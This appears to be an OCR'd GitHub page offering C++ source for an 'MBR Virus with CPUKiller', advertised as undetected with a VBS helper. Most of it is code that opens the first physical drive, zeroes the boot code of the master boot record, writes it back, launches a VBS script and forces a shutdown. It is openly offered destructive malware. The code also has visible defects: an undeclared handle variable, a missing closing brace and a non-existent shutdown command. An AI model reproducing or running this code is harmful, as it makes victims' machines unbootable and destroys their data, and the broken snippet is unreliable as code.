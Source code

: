 # MBR Virus with CPUKiller Undetected Virus
 MBR Virus is undetected with this version! VBS will defend him and makes undetected the real threat MBR.
 #include <Windows.h>
#include <iostream>
#include<stdio.h>

int _stdcall WinMain(HINSTANCE hInst, HINSTANCE hPrevInst, LPSTR lpCmd, int nCmdShow)
{
DWORD wb;
char mbr[512];
char oldMbr[512];
ZeroMemory(&mbr, sizeof(mbr));
ZeroMemory(&oldMbr, sizeof(oldMbr));
HANDLE drive = CreateFileA("\\\\.\\PhysicalDrive0", GENERIC_READ | GENERIC_WRITE, FILE_SHARE_READ | FILE_SHARE_WRITE, 0, OPEN_EXISTING, 0, 0);
ReadFile(drive, oldMbr, 512, &wb, NULL);
ZeroMemory(oldMbr, 440);
memcpy(mbr, oldMbr, 512);
SetFilePointer(drive, 0,0, FILE_BEGIN);
WriteFile(drive, mbr, 512, &wb, NULL);
CloseHandle(unidade);
system("bombalayan.vbs");
system("desligamento -s -t 00");
//Finish of code
